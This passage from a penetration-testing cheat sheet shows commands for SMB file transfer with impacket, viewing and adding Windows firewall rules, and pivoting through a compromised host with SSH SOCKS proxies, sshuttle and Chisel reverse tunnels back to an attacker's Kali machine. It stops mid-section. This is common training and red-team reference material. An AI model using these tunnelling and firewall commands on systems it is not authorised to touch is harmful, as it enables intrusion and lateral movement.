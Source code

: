 #### Impacket-smbserver

```sh
impacket-smbserver secure . (-smb2support)
copy \\<IP>\secure\<FILE>
```

## Firewall

```powershell
# Get Firewall rules
Get-NetFirewallRule -all | Out-GridView
Get-NetFirewallRule -all | Export-csv <file.csv>

# Add a Firewall rule
New-NetFirewallRule -Action Allow -DisplayName <NAME> -RemoteAddress <IP>
```

## Pivoting

SSH access always gives you the easiest pivot. You can set up a SOCKS proxy by adding the -D flag as follows.

`ssh $USERNAME@$RHOST -D 1080`

This opens a SOCKS proxy on your machine’s port 1080, which is proxied to the target system. You can configure to use it with proxychains quite easily.

Another nice addition to the proxying portfolio is sshuttle, it does some magic to automatically proxy traffic from your host to a certain subnet through the target system.

`sshuttle -r $USERNAME@$RHOST 10.1.1.0/24`

If you only have Windows systems to deal with, Chisel comes highly recommended. It’s a bit more complicated to set up a full SOCKS proxy, as it requires two sessions on the target. The required commands are as below.

On Kali:

```sh
./chisel server -p 8000 --reverse
```

On target:

```sh
.\chisel_windows_386.exe client $LHOST:8000 R:8001:127.0.0.1:9001
```

Now we are listening on localhost:8001 on kali to forward that traffic to target:9001.

Then, open the Socks server: On target:

```sh
.\chisel_windows_386.exe server -p 9001 --socks5
```

On Kali:
